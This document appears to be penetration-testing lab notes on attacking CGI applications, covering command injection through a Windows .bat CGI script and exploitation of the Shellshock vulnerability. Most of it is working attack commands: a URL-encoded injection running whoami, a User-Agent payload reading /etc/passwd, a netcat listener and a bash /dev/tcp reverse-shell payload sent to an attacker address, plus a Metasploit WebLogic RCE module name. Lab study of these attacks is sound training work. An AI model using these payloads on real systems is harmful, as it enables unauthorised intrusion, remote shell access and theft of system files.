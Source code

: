 ```
PATH_INFO=
<...SNIP...>
```
The PATH variable is unset
#### Enumerate using commands w/ the full binary path w/ URL encoding
```Shell
curl 'http://10.129.205.30:8080/cgi/welcome.bat?&?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1'
```

`http://10.129.205.30:8080/cgi/welcome.bat?&?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe`

## Attacking Common Gateway Interface (CGI) Applications - Shellshock
#### [Shellshock Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
#### Enumerate the host to identify endpoints w/ Gobuster
```Shell
 gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
Output: `/access.cgi`
#### cURL the script
```Shell
curl -i http://10.129.204.231/cgi-bin/access.cgi
```
#### Confirm the vulnerability
```Shell
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
#### Exploitation to Reverse Shell Access
```Shell
rlwrap nc -lnvp 7777
```

```Shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
## Other Notable Applications

***LAB Notes:*

- Found `Oracle WebLogic admin httpd 12.2.1.3 (T3 enabled)` on port 7001.
- Used Metasploit module `exploit/multi/http/weblogic_admin_handle_rce` to exploit
